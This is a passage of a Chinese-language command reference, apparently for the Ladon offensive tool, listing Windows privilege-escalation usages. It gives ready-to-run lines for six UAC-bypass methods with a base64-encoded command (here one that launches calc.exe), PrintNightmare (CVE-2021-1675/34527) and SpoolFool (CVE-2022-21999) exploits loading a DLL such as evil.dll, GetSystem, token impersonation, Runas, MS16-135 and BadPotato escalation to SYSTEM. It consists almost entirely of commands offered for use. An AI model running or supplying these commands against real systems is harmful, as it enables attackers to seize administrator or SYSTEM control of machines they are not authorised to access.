 ##### 108 whoami查看当前用户权限以及特权	
Ladon whoami

##### 109  6种白名单BypassUAC(8.0后)Win7-Win10  10.8版本移除 仅911保留
用法: Ladon BypassUAC Method Base64Cmd
```Bash
Ladon BypassUAC eventvwr Y21kIC9jIHN0YXJ0IGNhbGMuZXhl
Ladon BypassUAC fodhelper Y21kIC9jIHN0YXJ0IGNhbGMuZXhl
Ladon BypassUAC computerdefaults Y21kIC9jIHN0YXJ0IGNhbGMuZXhl
Ladon BypassUAC sdclt Y21kIC9jIHN0YXJ0IGNhbGMuZXhl
Ladon BypassUAC slui Y21kIC9jIHN0YXJ0IGNhbGMuZXhl
Ladon BypassUAC dikcleanup Y21kIC9jIHN0YXJ0IGNhbGMuZXhlICYmIFJFTQ==
```

##### 110 BypassUac2 绕过UAC执行,支持Win7-Win10 	10.8版本移除 仅911保留
```Bash
Ladon BypassUac2 c:\1.exe
Ladon BypassUac2 c:\1.bat
```

##### 111 PrintNightmare (CVE-2021-1675 | CVE-2021-34527)打印机漏洞提权EXP 
```Bash
Ladon PrintNightmare c:\evil.dll
Ladon CVE-2021-1675 c:\evil.dll
```

##### 112 CVE-2022-21999 SpoolFool打印机漏洞提权EXP 
```Bash
Ladon SpoolFool poc.dll
Ladon CVE-2022-21999 poc.dll
```

##### 113 GetSystem 提权System权限执行CMD	
```Bash
Ladon GetSystem cmd.exe
```

##### 114 复制令牌执行CMD(如system权限降权exploer当前用户)
```Bash
Ladon GetSystem cmd.exe explorer
```

##### 115 Runas 模拟用户执行命令 	
```Bash
Ladon Runas user pass cmd
```

##### 116 MS16135提权至SYSTEM
```Bash
Ladon ms16135 whoami   >=9.2.1版本移除 911保留
```

##### 117 BadPotato服务用户提权至SYSTEM	
```Bash
Ladon BadPotato cmdline
```
